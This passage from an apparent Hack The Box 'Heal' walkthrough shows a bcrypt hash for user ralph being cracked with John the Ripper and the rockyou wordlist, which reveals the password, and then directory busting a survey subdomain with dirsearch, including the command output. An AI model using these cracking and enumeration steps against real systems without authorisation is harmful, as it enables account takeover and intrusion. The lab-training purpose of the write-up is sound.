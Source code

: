 ## Cracking the Hash

As next logical step we threw the `hash` of `ralph` into `John The Ripper` and it cracked after a few seconds using the `rockyou.txt`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Heal/files]
└─$ cat ralph.hash 
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Heal/files]
└─$ sudo john ralph.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
147258369        (?)     
1g 0:00:00:15 DONE (2024-12-14 21:32) 0.06277g/s 31.63p/s 31.63c/s 31.63C/s pasaway..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password  |
| -------- | --------- |
| ralph    | 147258369 |

## Foothold

### Directory Busting

Since we had no `login page` found yet we performed a quick `directory busting` on `take-survey.heal.htb` and found the `login page` for the `administrator`.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://take-survey.heal.htb/ -x 503

  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )                                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_take-survey.heal.htb/__24-12-15_10-58-07.txt

Target: http://take-survey.heal.htb/

[10:58:07] Starting:                                                             
[10:58:21] 403 -  564B  - /.ht_wsr.txt                                      
[10:58:21] 403 -  564B  - /.htaccess.bak1                                   
[10:58:21] 403 -  564B  - /.htaccess.sample                                 
[10:58:21] 403 -  564B  - /.htaccess.save
[10:58:21] 403 -  564B  - /.htaccess.orig
[10:58:21] 403 -  564B  - /.htaccess_orig                                   
[10:58:21] 403 -  564B  - /.htaccess_extra
[10:58:21] 403 -  564B  - /.htaccess_sc
[10:58:21] 403 -  564B  - /.htaccessOLD2
[10:58:21] 403 -  564B  - /.htaccessBAK                                     
[10:58:21] 403 -  564B  - /.htm
[10:58:21] 403 -  564B  - /.htaccessOLD
[10:58:21] 403 -  564B  - /.html                                            
[10:58:21] 403 -  564B  - /.htpasswd_test                                   
[10:58:21] 403 -  564B  - /.htpasswds                                       
```